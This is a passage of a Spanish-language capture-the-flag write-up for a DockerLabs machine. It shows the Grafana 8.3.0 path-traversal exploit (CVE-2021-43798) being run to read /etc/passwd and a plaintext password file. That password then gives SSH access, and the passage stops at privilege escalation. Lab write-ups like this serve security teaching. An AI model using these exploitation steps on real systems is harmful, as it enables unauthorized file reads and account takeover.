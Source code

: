 Esta versión es vulnerable a [CVE-2021-43798](https://nvd.nist.gov/vuln/detail/cve-2021-43798), una falla en plugins malformados que permite leer archivos arbitrarios en el sistema.

```terminal
/home/kali/Documents/dockerlabs/move:-$ searchsploit grafana 8.3.0
-------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                          |  Path
-------------------------------------------------------------------------------------------------------- ---------------------------------
Grafana 8.3.0 - Directory Traversal and Arbitrary File Read                                             | multiple/webapps/50581.py
-------------------------------------------------------------------------------------------------------- ---------------------------------
```

---
## CVE Exploitation

Utilizando el script `50581.py`, es posible explotar la vulnerabilidad de path traversal en Grafana 8.3.0. Esta falla permite leer archivos arbitrarios desde el servidor sin autenticación.

```terminal
/home/kali/Documents/dockerlabs/move:-$ cp /opt/tools/exploitdb/exploits/multiple/webapps/50581.py .

/home/kali/Documents/dockerlabs/move:-$ python3 50581.py -H http://172.17.0.3:3000/
Read file > /etc/passwd
root:x:0:0:root:/root:/bin/bash
...[snip]...
freddy:x:1000:1000::/home/freddy:/bin/bash

Read file > /tmp/pass.txt
t9sH76gpQ82UFeZ3GXZS
```

Desde `/etc/passwd` se extrae el nombre de usuario válido `freddy` y desde `/tmp/pass.txt` se recupera la contraseña en texto plano.

Estas credenciales permiten acceso SSH directo al sistema.

```terminal
/home/kali/Documents/dockerlabs/move:-$ ssh freddy@172.17.0.3
freddy@172.17.0.3's password: t9sH76gpQ82UFeZ3GXZS

$ id
uid=1000(freddy) gid=1000(freddy) groups=1000(freddy)
```

---
## Privilege Escalation

El usuario `freddy` puede ejecutar `/usr/bin/python3 /opt/maintenance.py` como `root` sin necesidad de proporcionar una contraseña.
